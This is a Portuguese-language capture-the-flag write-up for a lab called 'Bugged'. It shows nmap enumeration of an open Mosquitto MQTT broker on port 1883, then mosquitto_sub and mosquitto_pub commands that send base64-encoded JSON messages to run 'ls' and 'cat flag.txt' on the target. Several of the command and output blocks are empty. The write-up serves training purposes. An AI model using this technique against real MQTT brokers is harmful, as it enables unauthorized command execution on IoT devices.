






# _**Bugged CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A [ip_address]
> ```


Temos um serviço: <mark>1883/tcp open mosquitto/mark>  
Pesquisando sobre o serviço, temos as seguintes informações  
_A porta 1883 em um dispositivo indica que o broker Mosquitto MQTT está em execução e acessível_  
_MQTT (Message Queuing Telemetry Transport) é um protocolo de mensagens leve, frequentemente usado em aplicações de IoT (Internet das Coisas)_  
_A porta 1883 aberta significa que o broker está pronto para aceitar conexões MQTT não criptografadas_  

Vamos executar o comando abaixo
> ```bash
>
> ```


Temos uma string em _base64_  
Traduzindo com ```echo```, temos o seguinte  



Na saída acima podemos ver nosso ID de assinante, nossos comandos registrados, o _pub_topic_ e o _sub_topic_  
Precisaremos configurar nosso assinante que ouvirá as respostas e as apresentará a nós em base64 para que possamos decodificá-las  
Em seguida, executaremos comandos para fazer solicitações ao nosso assinante explorando nosso publicador  
> ```bash
> mosquitto_sub -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub -h [ip_address]
> mosquitto_pub -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -h [ip_address] -m [base64_message]
> ```

Enviando uma mensagem teste, temos a seguinte resposta  



Conhecendo o formato aceito, vamos tentar o seguinte, codificando para base64  
```{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd":"CMD","arg": "ls"}```  



Vamos alterar novamente para agora, obtermos a flag!  
```{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd":"CMD","arg": "cat flag.txt"}```  
